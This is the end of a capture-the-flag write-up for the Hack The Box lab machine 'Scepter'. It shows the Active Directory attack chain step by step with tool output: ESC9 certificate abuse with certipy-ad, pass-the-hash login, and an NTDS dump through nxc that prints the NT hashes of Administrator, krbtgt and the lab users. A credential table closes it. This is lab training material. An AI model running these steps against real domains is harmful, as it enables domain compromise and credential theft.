faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
[!] DNS resolution failed: The DNS query name does not exist: DC01.scepter.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: SCEPTER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
File 'd.baker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'd.baker.pfx'
```

and auth as p.adams there.

```bash
faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username p.adams
[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'p.adams@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'p.adams.ccache'
[*] Wrote credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

nice lets verify it!!!

```bash
➜  scepter2 nxc smb 10.10.11.65 -u p.adams -H 1b925c524f447bb821a8789c4b118ce0
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.65     445    DC01             [+] scepter.htb\p.adams:1b925c524f447bb821a8789c4b118ce0
```


and we can dump everything!!! with nxc `--ntds` module

```bash
➜  scepter2 nxc smb 10.10.11.65 -u p.adams -H 1b925c524f447bb821a8789c4b118ce0 --ntds 
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\p.adams:1b925c524f447bb821a8789c4b118ce0 
SMB         10.10.11.65     445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.10.11.65     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.65     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
SMB         10.10.11.65     445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.65     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
SMB         10.10.11.65     445    DC01             scepter.htb\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
SMB         10.10.11.65     445    DC01             scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:20688f5fcfa2354f667523a73a3d1951:::
SMB         10.10.11.65     445    DC01             scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
SMB         10.10.11.65     445    DC01             scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
SMB         10.10.11.65     445    DC01             scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
SMB         10.10.11.65     445    DC01             scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
SMB         10.10.11.65     445    DC01             scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
SMB         10.10.11.65     445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
```

And bamm!!!!!

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| - | newpassword | pfx files | - | - |
| d.baker | 18b5fb0d99e7a475316213c15b6f22ce | LADP | pfx  |  |
| h.brown | 4ecf5242092c6fb8c360a08069c75a0c | winrm | ESC9 |  |
| p.adams | 1b925c524f447bb821a8789c4b118ce0 | everywhere | ESC9 | DCSYNC |
| Administrator | a291ead3493f9773dc615e66c2ea21c4 | everywhere | DCSYNC | DA |

## Tools

https://hacktricks.boitatech.com.br/pentesting/nfs-service-pentesting

https://github.com/openwall/john

[https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation#esc9-no-security-extension-on-certificate-template](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template)
